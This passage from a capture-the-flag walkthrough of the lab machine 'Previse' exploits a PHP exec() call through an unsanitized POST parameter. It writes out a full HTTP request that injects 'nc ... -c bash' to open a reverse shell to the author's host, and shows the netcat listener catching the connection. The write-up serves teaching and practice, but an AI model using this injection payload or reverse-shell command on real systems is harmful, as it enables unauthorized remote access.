 It appears that an SQL database is connected to using credential pair `root:mySQL_p@ssw0rd!:)`. This may be our way in, should the database be vulnerable to code injection. The next step, then, requires setting aside my prejudice against PHP, as the other files must be searched for input handling issues. And Indeed, after spending an inordinate amount of time searching for issues within the PHP source of the site, logs.php contains a potentially exploitable PHP `exec()` function... Did I mention my distaste for PHP? Anyway, consider the exec function in question:
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

If we craft a POST request such that the delimiter (`delim`) has an executable statement appended to it, that statement should be executed. For that reason, `exec` is a dangerous PHP function, especially given the lack of input validation present here. Always sanitize input!

## Gaining Shell Access
### Writing a Malicious POST Request
As previously mentioned, if we create a normal post request to file_logs.php as follows, we then only need to append a malicious custom `delim` parameter to the end — one step at a time though.
Consider the following request, captured when submitting a request for log data from file_logs.php: ![Screenshot of obtaining a valid POST request to file_logs.php](/documents/previse5.png)

At the bottom, `delim=comma` can be seen; this can be changed to `delim=comma; <statement>` to execute `<statement>` when the POST request is forwarded. Ideally, a reverse shell may be set up to grant shell access. This, of course, can be difficult to do without knowing what packages are installed on the target.

I have only ever used Netcat with Metasploit modules on old Windows XP machines to create reverse shell access, so hopefully Previse has Netcat installed. A reverse shell using Netcat can be spawned with [`nc 10.10.14.70 1234 -c bash`](https://explainshell.com/explain?cmd=nc+10.10.14.70+1234+-e+-c+bash); so, the full post request can be as follows, given that my IP address is 10.10.14.70:
```none
POST /logs.php HTTP/1.1
Host: 10.10.11.104
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.104
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.104/file_logs.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=b1hcqu7ulch7gleqm9f5jnapvm
Connection: close

delim=comma; nc 10.10.14.70 1234 -c bash
```

### Connecting with Netcat
Before sending the POST request with the malicious connection request, we must listen for incoming connections on port 1234, as specified, which is done with [`nc -nlp 1234`](https://explainshell.com/explain?cmd=nc+-nlp+1234). After doing so, the post request may be sent... Looks like Previse has Netcat installed after all — basic shell access has been achieved!
```none
$ nc -nlp 1234
listening on [any] 1234 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.11.104] 48236
```

